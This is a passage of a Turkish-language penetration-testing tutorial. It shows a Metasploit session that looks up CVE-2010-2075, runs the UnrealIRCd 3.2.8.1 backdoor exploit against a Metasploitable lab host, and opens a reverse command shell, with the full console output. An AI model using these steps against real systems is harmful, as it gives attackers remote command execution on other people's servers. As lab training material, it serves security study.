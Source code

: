 

`6667` numaralı porta ait zafiyet olarak listelenen `cve:2010-2075` zafiyetine ait Metasploit Framework modüllerinde herhangi bir modül var mı? Aratalım.


```bash
msf **&gt;** search cve:2010-2075

Matching Modules
**================**

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/unix/irc/unreal_ircd_3281_backdoor  2010-06-12       excellent  UnrealIRCD 3.2.8.1 Backdoor Command Execution


msf **&gt;**
```



Arama sonucunda, `exploit/unix/irc/unreal_ircd_3281_backdoor` isimli bir exploit modülü bulunduğunu görüyoruz. Şimdi bu modülü kullanalım.


```bash
msf  use exploit/unix/irc/unreal_ircd_3281_backdoor

msf  exploit**(**unreal_ircd_3281_backdoor**)** **&gt;** exploit

**[*********]** Started reverse double handler
**[*********]** Connected to 172.16.194.172:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :******* Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :******* Couldn't resolve your hostname; using your IP address instead
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Q4SefN7pIVSQUL2F;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "Q4SefN7pIVSQUL2F\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.194.163:4444 -&gt; 172.16.194.172:35941) at 2012-06-15 15:08:51 -0400

ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:d1:62:80  
          inet addr:172.16.194.172  Bcast:172.16.194.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fed1:6280/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:290453 errors:0 dropped:0 overruns:0 frame:0
          TX packets:402340 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:41602322 (39.6 MB)  TX bytes:344600671 (328.6 MB)
          Interrupt:19 Base address:0x2000 

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:774 errors:0 dropped:0 overruns:0 frame:0
          TX packets:774 errors:0 dropped:0 overruns:0 carrier:0
```